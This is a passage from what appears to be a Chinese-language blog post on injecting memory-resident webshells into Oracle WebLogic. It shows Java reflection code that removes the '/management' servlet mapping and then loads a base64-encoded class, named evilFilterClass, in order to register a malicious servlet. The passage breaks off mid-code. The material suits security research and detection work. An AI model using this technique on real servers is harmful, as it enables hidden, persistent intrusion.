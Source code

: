 ```java
java.lang.reflect.Field connectionHandlerF = currentWork.getClass().getDeclaredField("connectionHandler");
connectionHandlerF.setAccessible(true);
weblogic.servlet.internal.HttpConnectionHandler connectionHandler = (weblogic.servlet.internal.HttpConnectionHandler)connectionHandlerF.get(currentWork);
Object scm = connectionHandler.getHttpServer().getServletContextManager();
Field f = scm.getClass().getDeclaredField("contextTable");
f.setAccessible(true);
weblogic.servlet.utils.ServletMapping servletmapping = (weblogic.servlet.utils.ServletMapping)f.get(scm);
//servletmapping.removePattern("/management");
Field mmf = servletmapping.getClass().getSuperclass().getDeclaredField("matchMap");
mmf.setAccessible(true);
weblogic.utils.collections.MatchMap matchMap = (weblogic.utils.collections.MatchMap)mmf.get(servletmapping);
matchMap.remove("/management");
```

成功删掉了（正常这个接口会弹出框让输入账号密码）
![](/img/in-post/weblogic-memshell-2/4.png)

可能是猜测有问题，先不管这个。那能影响到的话就比较简单了，直接调用context的registerServlet注册servlet即可，最终代码

```java
byte[] codeClass = java.util.Base64.getDecoder().decode("yv66vgAAADQAugoAJwB......");
ClassLoader cl = (ClassLoader)Thread.currentThread().getContextClassLoader();
java.lang.reflect.Method define = cl.getClass().getSuperclass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
define.setAccessible(true);
Class evilFilterClass  = (Class)define.invoke(cl,codeClass,0,codeClass.length);

Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
java.lang.reflect.Method m = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = m.invoke(Thread.currentThread());

java.lang.reflect.Field connectionHandlerF = currentWork.getClass().getDeclaredField("connectionHandler");
connectionHandlerF.setAccessible(true);
Object obj = connectionHandlerF.get(currentWork);

java.lang.reflect.Field requestF = obj.getClass().getDeclaredField("request");
requestF.setAccessible(true);
obj = requestF.get(obj);

java.lang.reflect.Field contextF = obj.getClass().getDeclaredField("context");
```